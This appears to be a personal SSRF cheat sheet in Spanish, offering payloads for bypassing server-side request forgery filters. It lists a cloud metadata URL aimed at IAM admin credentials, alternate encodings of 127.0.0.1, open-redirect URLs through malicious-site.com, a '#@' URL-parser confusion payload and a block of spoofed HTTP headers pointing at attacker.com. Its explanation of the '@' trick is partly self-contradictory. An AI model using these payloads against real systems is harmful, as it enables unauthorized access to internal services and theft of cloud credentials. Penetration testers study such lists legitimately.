 ```yaml
---

### 🚀 **Server-Side Request Forgery (SSRF) Cheat Sheet**

---
```

---
**`http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/`**
### **1. Usar Representación Alternativa de IP**
Representaciones de la IP `127.0.0.1`:
- **Decimal:** `2130706433`
- **Octal:** `017700000001`
- **Forma abreviada:** `127.1`

---

### **2. Registrar un Dominio Controlado**
Registra un dominio propio que resuelva a `127.0.0.1` para realizar pruebas o explotar la vulnerabilidad:  
- Ejemplo: `spoofed.burpcollaborator.net`

---

### **3. Ofuscar Cadenas Bloqueadas**
- **URL Encoding:** Convertir caracteres especiales. Ejemplo:  
  ```
  /admin → %2Fadmin
  ```
- **Case Variation:** Cambiar entre mayúsculas y minúsculas:  
  ```
  /Admin → /admin
  ```
---

### **4. Usar Redirecciones**
Configura una redirección en un dominio controlado para apuntar a la URL objetivo.  
- **Entrada del usuario:**  
  ```
  http://malicious-site.com/redirect?url=http://target-site.com/admin
  ```
- **Cambio de Protocolo:**  
```
  http://malicious-site.com/redirect?url=https://target-site.com/admin
```

### **5. Modificar el Referer**
- Cambiarlo para engañar validaciones, acceder a recursos internos o inyectar datos en logs/paneles si se usa sin filtrar.

### **6. Bypass mediante el uso de autentitcacion y `#`**
```
api=https://localhost:80#@domain.com
```
- Esto funciona porque en una URL la parte antes de @ se interpreta como credenciales de autenticación (usuario:contraseña@host).
- El # marca el inicio de un fragmento en la URL.
	- Todo lo que está después del # normalmente no se envía en la petición HTTP (es solo para el navegador).
	- El parser de URLs en algunos filtros interpreta https://localhost:80#@domain.com como si el host fuera localhost, pero el filtro puede equivocarse y ver domain.com.
- Esto puede permitir:
	- Bypass SSRF filters que bloquean localhost o direcciones internas pero no procesan correctamente el fragmento/usuario.
	- Engañar la validación del dominio, ya que @ en realidad cambia el host real a lo que está después.
---
## **Cabeceras HTTP para Evasión de SSRF**
Algunas cabeceras útiles para intentar redirigir o manipular la solicitud:

```http
Host: vulnerable-website.com
X-Forwarded-For: 127.0.0.1
X-Forwarded-Host: attacker.com
X-Forwarded-Server: attacker.com
X-Forwarded-Port: 80
Forwarded: for=127.0.0.1;host=attacker.com;proto=http
Client-IP: 127.0.0.1
True-Client-IP: 127.0.0.1
Cluster-Client-IP: 127.0.0.1
X-Client-IP: 127.0.0.1
X-Real-IP: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-ProxyUser-Ip: 127.0.0.1
Referer: http://attacker.com
Origin: http://attacker.com
X-Forwarded-By: 127.0.0.1
X-Forwarded-Proto: https
Via: 1.1 attacker.com
X-Api-Version: 1.0
Max-Forwards: 10
X-Wap-Profile: http://attacker.com
Proxy-Authorization: Basic Zm9vOmJhcg==
Surrogate-Capability: attacker="Surrogate/1.0"
```

---

